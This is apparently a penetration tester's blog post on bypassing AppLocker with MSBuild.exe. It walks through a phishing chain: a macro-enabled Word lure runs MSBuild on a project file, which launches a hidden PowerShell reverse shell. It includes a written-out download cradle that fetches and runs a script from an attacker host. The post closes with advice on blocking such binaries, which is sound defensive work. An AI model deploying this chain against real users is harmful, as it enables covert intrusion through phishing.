 ```yaml
---
layout: post
title: MSBuild AppLocker Bypass Phishing Payload
published: true
---
```

![msbuild]({{ site.url }}/images/multi_stage_msbuild_applocker_bypass.assets/msbuild-csproj.png){: .center-image }


### With regular external vulnerability scans and (hopefully) penetration tests being undertaken, the perimeter is typically not the easy route into an organisation.

People click, and so simulated phishing campaigns and user awareness training are extremely important. However, there can never be complete assurance against credential divulgence or execution of malicious code via targetted (or not so targetted) phishing attacks, and so it is critical that organisations implement a multi-layered "defence in depth" strategy. Application Whitelisting is an important component of such a strategy, and is an effective means of ensuring that only approved applications can run.

AppLocker is a commonly used whitelisting technology and is built into Windows. Commonly, the default AppLocker rules (listed below) are applied.

![rules]({{ site.url }}/images/multi_stage_msbuild_applocker_bypass.assets/applocker-default-rules.png){: .center-image }

Since Powershell has gained recognition for being the attacker's language of choice, organisations are increasingly blocking it. However, blocking powershell.exe alone is not sufficient as there are many methods by which PowerShell can be instantiated to send a reverse shell reaching out of the organisation to an attacker.

This post will document one such method, the (as Casey Smith puts it) "misplaced trust" binary MSBuild.exe. In this scenario, the company has enabled AppLocker with Default Rules and has also blocked powershell.exe.

![rules]({{ site.url }}/images/multi_stage_msbuild_applocker_bypass.assets/applocker-rules.png){: .center-image }

Assuming that MSBuild.exe is allowed, we can invoke it to execute a ".csproj" (Visual Studio .NET C# Project file) and instantiate a Powershell runspace using the System.Management.Automation.dll assembly. The powashell.csproj file below by Casey Smith ([@SubTee](https://twitter.com/subtee)) builds upon Jared Atkinson's ([@jaredcatkinson](https://twitter.com/jaredcatkinson)) and Justin Warner's ([@sixdub](https://twitter.com/sixdub)) work.

<script src="https://gist.github.com/egre55/7a6b6018c9c5ae88c63bdb23879df4d0.js"></script>

It then executes the second stage of our payload via a PowerShell 3.0+ download cradle:

`pipeline.Commands.AddScript("IEX (iwr 'http://10.10.10.10/shell.ps1')");`

shell.ps1:

<script src="https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3.js"></script>

Good. Now we need a means of delivering the project file and executing MSBuild. The macro below will do just this.

<script src="https://gist.github.com/egre55/563159175f8d6c1d31d7f3af77357549.js"></script>

The `WindowType` parameter of the Shell function has been set to `vbHide` in order to avoid calling attention to our activities. Now, in order to stand a chance of the macro being executed, we need to dress the document appropriately.

John Lambert ([@JohnLaTwC](https://twitter.com/johnlatwc)) regularly shares interesting phishing lures and payloads, if you need inspiration for your simulated phishing campaigns. The "Document created in newer/older Office version" lure is one I find especially convincing. John has also put together [this](https://t.co/OwH28ltngy) compendium of macro based lures, which is great for educating users about the different techniques attackers use.

FailedPayment.doc lure:

![lure]({{ site.url }}/images/multi_stage_msbuild_applocker_bypass.assets/phishing-lure.png){: .center-image }

Now that the "malicious" document has been created we can test it out. Once the user opens the document and enables macros, our powashell.csproj is downloaded for MSBuild to execute, which in turn downloads and executes the Powershell reverse shell one-liner. All completely invisible to the user.

![rules]({{ site.url }}/images/multi_stage_msbuild_applocker_bypass.assets/shell.png){: .center-image }

We can see that this payload is also an effective means of bypassing PowerShell Constrained Language mode. This was not a particularly stealthy attack as the .csproj is written to disk, and no attempt was made to obfuscate any part of the payload.

Hopefully, this example highlights the danger of "misplaced trust" binaries such as MSBuild. Organisations should block their use unless explicitly required for certain users (e.g. developers), and should also consider blocking Office Macros for users who don't need this functionality, and implement a custom whitelisting policy, mindful of the permissiveness of AppLocker Default Rules. Oddvar Moe ([@Oddvarmoe](https://twitter.com/oddvarmoe)) maintains an excellent [collection](https://github.com/api0cradle/UltimateAppLockerByPassList) of AppLocker bypass techniques, which is a good list of the "misplaced trust" binaries that IT departments should consider blocking. In addition to powershell.exe, organisations should also consider blocking the following PowerShell binaries and assemblies.

<script src="https://gist.github.com/egre55/61b6cd2b23b605e6a017e81e5cb97f3e.js"></script>

Yet as mentioned, even after blocking the above, there are multiple methods an attacker could use to instantiate a Powershell runspace. For example, an attacker could download a custom binary to one of the writable and executable folders within Windows that are whitelisted by AppLocker Default Rules. These folders can be audited using [this](https://raw.githubusercontent.com/3gstudent/Bypass-Windows-AppLocker/master/AppLockerBypassChecker-v1.ps1) PowerShell script by Tom Aafloen. On my computer, they are:

<script src="https://gist.github.com/egre55/47186f7a22de177af4785e80fc2dcb41.js"></script>

These folders can then be blocked from being executable ... and so this attacker/defender back and forth continues ad infinitum.

It is important for organisations to formalise an ongoing cycle of testing, remediation and review, in order to achieve stronger system security. An "assume breach" mentality is also useful, as well as focusing on efforts to make it as hard as possible for an attacker to gain that initial foothold.
